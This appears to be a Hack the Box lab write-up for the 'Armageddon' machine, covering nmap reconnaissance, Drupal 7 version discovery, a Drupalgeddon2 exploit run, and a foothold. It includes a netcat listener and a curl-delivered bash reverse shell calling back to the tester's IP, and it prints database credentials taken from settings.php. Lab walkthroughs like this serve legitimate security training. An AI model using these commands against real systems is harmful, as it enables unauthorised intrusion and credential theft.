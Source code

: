 # Hack the Box - Armageddon

# NMAP
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.233 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.233
Host is up (0.18s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/15%OT=22%CT=1%CU=37173%PV=Y%DS=2%DC=I%G=Y%TM=6461351
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=107%TI=Z%II=I%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=I%
OS:TS=A)SEQ(SP=105%GCD=1%ISR=107%TI=Z%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW
OS:7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=7120%
OS:W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M53CN
OS:NSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=
OS:Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=A
OS:R%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=4
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=
OS:G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.58 seconds
```

```CSS
▶ nmap -sC -sV -p 22,80 10.10.10.233 -oN services.nmap

Nmap scan report for 10.10.10.233
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82c6bbc7026a93bb7ccbdd9c30937934 (RSA)
|   256 3aca9530f312d7ca4505bcc7f116bbfc (ECDSA)
|_  256 7ad4b36879cf628a7d5a61e7060f5f33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Welcome to  Armageddon |  Armageddon
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.35 seconds
```

---

## HTTP
  - Homepage
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/cb5ace1e-fa12-4cc5-b837-4107afa14893)

  - Registering as a new user failed as e-mail authentication is broken broken.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4abc8d0c-1e80-479a-b0ca-3d6eaa55f28c)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/56f3bf84-4cfa-42ea-b0de-db89db01746d)

---

## HTTP Response Header
```http
HTTP/1.1 200 OK
Date: Sat, 30 Sep 2023 11:35:57 GMT
Server: Apache/2.4.6 (CentOS) PHP/5.4.16
X-Powered-By: PHP/5.4.16
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Cache-Control: no-cache, must-revalidate
X-Content-Type-Options: nosniff
Content-Language: en
X-Frame-Options: SAMEORIGIN
X-Generator: Drupal 7 (http://drupal.org)
Content-Length: 7440
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8
```

---

## Drupal Version
- `changelog.txt`.
```shell
curl -s 10.10.10.233/CHANGELOG.txt | head
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9e732973-d6d1-4287-acdd-47f785645a1f)

---

## Search for Exploit
```shell
root@kali# searchsploit drupal 7.56
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e8217b76-c132-4084-8b46-a44a1c78af1a)
```shell
root@kali# searchsploit -x php/webapps/44449.rb
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/0592413d-3aca-457e-bab1-9404dc5c36e3)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bf373420-7ea7-4e73-b86c-8bd1884c4b06)
```shell
root@kali# searchsploit -x php/webapps/44449.rb
```

## Initial Foothold
```shell
root@kali# ruby 44449.rb http://10.10.10.233
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2a3f60b5-c3ef-4d41-a291-f752776f758b)

Bash Shell
```shell
root@kali# rlwrap nc -nlvvp 443
```
```shell
root@kali# curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.10/443 0>&1" 'http://10.10.10.233/shell.php'
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/868623ca-76ba-4fd4-bde1-6863c301137f)

`/var/www/html/sites/default/settings.php`
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b877cd91-e6e5-4406-8100-828b1a80722f)

```shell
Creds: drupaluser:CQHEy@9M*m23gBVj
```


